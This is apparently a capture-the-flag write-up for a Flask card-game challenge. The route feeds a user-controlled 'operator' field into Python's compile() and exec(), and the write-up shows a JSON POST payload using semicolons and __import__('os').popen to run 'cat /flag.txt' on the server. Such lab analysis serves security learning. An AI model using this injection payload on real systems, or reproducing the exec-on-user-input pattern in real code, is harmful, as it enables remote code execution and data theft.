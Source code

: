 # Web Evaluation Check

{% file src="../../../.gitbook/assets/web_evaluation_deck.zip" %}
Challenge source code
{% endfile %}

## Application at-a-glance

Application is a card game that allows user to flip 8 cards.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Default view</p></figcaption></figure>

When HP bar is depleted game is ended.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>End screen</p></figcaption></figure>

## Source Code Review

Most interesting file is `routes.py` as this file store all logic used by application.

{% code lineNumbers="true" %}
```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
{% endcode %}

First interesting thing is that this application uses `compile` and `exec` function.

Let's analyze the given source code.

{% code lineNumbers="true" %}
```python
    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
```
{% endcode %}

This piece of code parse `POST` request body and get `current_health`, `attack_power` and `operator` parameters.



Next step is checking if all three variables are set, this ensures that all three parameters are passed in request.

{% code lineNumbers="true" %}
```python
if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400
```
{% endcode %}

This part is most interesting because of use `exec` function.

{% code lineNumbers="true" %}
```python
 result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500

```
{% endcode %}

But before `exec` call, user input is directly passed to `compile` function and then to `exec`, `current_health` and `attack_power` are casted to int. `Result` variable is returned to the user in reponse

## Vulnerability

As there is no sanitization of user input there is possible RCE (Remote Code Execution) via `exec` function!

## Testing

As I'm not familliar with `compile()/exec()` function combo I copied relevant part of code to new python script for testing.

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "+"
attack_power = '100'
result = {}

try:
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    print(result.get('result'))
except:
    print('Something Went Wrong!')

```
{% endcode %}

After executing this script number `112` is printed.

`exec` function is capable of executing python code. User controles all three parameters but only `operator` is passed directly to `compile` rest parameters are converted to `int`

One modyfication for testing script is required, because in this state when something is wrong printing `Something Went Wrong!`

To get full traceback `try/except` block can be removed.

So the first try was to set `operator` variable to something easy like `print(1)` and if everything goes well it should print `1`

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "print(1)"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))
```
{% endcode %}

Unfortunately after executing, script returns `SyntaxError: Invalid Syntax` and result is equal to `result = 12 print(1) 100` so 12 is `current_health` and 100 is `attack_power`&#x20;

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>First try - invalid syntax</p></figcaption></figure>

Python is capable of running inline code when next instruction are separated with semicolon `;`&#x20;

{% code lineNumbers="true" fullWidth="true" %}
```python
current_health = '12'
operator = ";print(1);"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))

```
{% endcode %}

Executing this yeild great success! Script printing additianal `1` in terminal window.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>RCE!</p></figcaption></figure>

## Exploitation

With proper code execution now we can read the flag.

{% code lineNumbers="true" %}
```http
POST /api/get_health HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 114
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
	"current_health":"43",
	"attack_power":"33",
	"operator":";result = __import__('os').popen('cat /flag.txt').read();"
} 

```
{% endcode %}

After sending this malicious request to application, server returns flag.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Flag</p></figcaption></figure>

### Payload explanation

```python
"operator":";result = __import__('os').popen('cat /flag.txt').read();"
```

* semicolons are here for valid python code execution - without `;` signs interpreter throws `invalid syntax` error
* `result =` this overwrites variable that is returned in response to the user
* `__import__` is function called by regular import statement this allows to import modules directly so \
  `__import__('os')` means the same as `import os` but can be done inline and can call functions directly by referencing them as `objects`
* `popen('cat /flag.txt`) this function spawns shell process and executes command `cat /flag.txt`
* `read()` reads output of a process from popen&#x20;

